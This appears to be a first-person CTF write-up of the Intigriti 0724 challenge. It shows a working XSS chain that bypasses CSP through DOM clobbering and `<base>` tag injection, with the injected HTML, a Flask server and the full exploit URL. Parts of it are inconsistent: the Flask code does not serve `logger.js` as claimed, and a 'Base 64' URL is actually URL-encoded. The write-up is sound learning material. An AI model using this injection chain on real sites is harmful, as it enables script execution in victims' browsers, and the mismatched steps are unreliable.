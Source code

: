 # Intigriti Challenge 0724 - Complete Write-up & Exploit

## Overview

This write-up explains how I solved the Intigriti Challenge 0724, a web security CTF involving bypassing a strict Content Security Policy (CSP) and exploiting DOM behavior to execute JavaScript in the victim’s browser.

The main goal was to bypass CSP restrictions, hijack a dynamically loaded script (`logger.js`), and run `alert(document.domain)` without any user interaction.

---

## Step-by-Step Exploit Breakdown

### 1. Understanding the Challenge

- The vulnerable web page sanitizes user input (`memo` parameter).
- If sanitization fails (due to malformed input), it loads a `logger.js` script dynamically.
- The page only enables “development mode” (`isDevelopment` flag) when running on `localhost`.
- CSP uses `'strict-dynamic'` with script hashes, restricting which scripts can run.

---

### 2. Bypassing `isDevelopment` with DOM Clobbering

Normally, the `isDevelopment` variable is `true` only on localhost, blocking our exploit on the challenge server.

I injected:

```html
<form id="isDevelopment">
```
This creates a global DOM element with the ID isDevelopment that overwrites the JavaScript variable of the same name with a truthy object, tricking the site into enabling dev mode regardless of origin.
### 3. Hijacking Script Loading with the <base> Tag
The site dynamically loads ./logger.js relative to the page.
I injected:
```html
<base href="http://127.0.0.1:8000/">
```
This tag changes the base URL for relative paths, making the browser load logger.js from my own server instead of the challenge’s domain.
### 4. Crafting Malformed Input to Trigger Sanitizer Error
By combining the two injections:
```html
<base href="http://127.0.0.1:8000/"><form id="isDevelopment">
```
the input breaks the sanitizer, causing it to throw an error and load logger.js dynamically.
### 5. Hosting Malicious logger.js on a Local Flask Server
To serve the malicious script, I wrote this Python Flask server:
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def home():
    return render_template_string('''
    <!DOCTYPE html>
    <html>
    <head>
        <title>Document Domain Alert</title>
    </head>
    <body>
        <h1>Welcome to Flask</h1>
        <script>
            alert(document.domain);
        </script>
    </body>
    </html>
    ''')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000,debug=True)

```
- This serves a JavaScript file at http://127.0.0.1:8000/logger.js.
- The file contains alert(document.domain); which will pop up the domain of the vulnerable page.
### 6. Running the Local Server
To start the server via:
```pyhton
python3 -m http.server 8000
```
### 7. Full Exploit URL Base 64 encode.
```url
https://challenge-0724.intigriti.io/challenge/index.html?memo=%3Cbase%20href%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%22%3E%3Cform%20id%3D%22isDevelopment%22%3E

```
When visiting this URL:
- The sanitizer throws an error on the malformed input.
- Dev mode is enabled by the DOM clobbering.
- The page dynamically loads logger.js from my Flask server.
- The browser executes alert(document.domain); under the challenge domain context.

### 8. Result
An alert box pops up showing:
```go
challenge-0724.intigriti.io
```
The Screenshot of the pop up showing
![Popup Alert](popup_screenshot.png)

---

##  Personal Reflection

When I first saw this challenge, I felt overwhelmed. I had never dealt with advanced CSP, DOM clobbering, or dynamic script injection before. It all seemed complicated and out of reach.

But instead of giving up, I started breaking down each part — inch by inch. I studied how the base tag works, what CSP `'strict-dynamic'` really means, and how browsers treat malformed HTML. I spent hours experimenting, failing, tweaking, and finally — it clicked.

And when I saw that **`alert(document.domain)`** pop up...  
I froze.  
Then I smiled.  

> I didn’t just solve a CTF — I understood the web a little deeper.  
> I didn’t just hack a page — I hacked my own limitations.

This was my **first CTF** — and now, I’m not afraid of the next one. In fact, I can’t wait.

---

##  Final Words

> “You don't grow when things are easy. You grow when you face challenges that feel impossible — and solve them anyway.”  
> — Mohamed Sadik


### Lessons Learned
- DOM Clobbering: Overriding JavaScript variables with DOM elements.

- Base Tag Injection: Changing base URL to hijack relative resource loading.

- CSP Bypass: Leveraging 'strict-dynamic' to allow trusted dynamic scripts.

- Sanitizer Abuse: Causing errors to trigger fallback script loading.

- Hosting Malicious JS: Serving payloads to hijacked script URLs.

### Disclaimer
This write-up is for educational purposes and authorized (By Intigriti Challenge 0724) challenges only. Do not attempt unauthorized attacks.
### Contact
Feel free to reach out for questions or collaboration.
- Mail: mwmsadik@gmail.com
- Mohamed Sadik
- **Don't just code it. Understand it. Break it. Rebuild it better.**
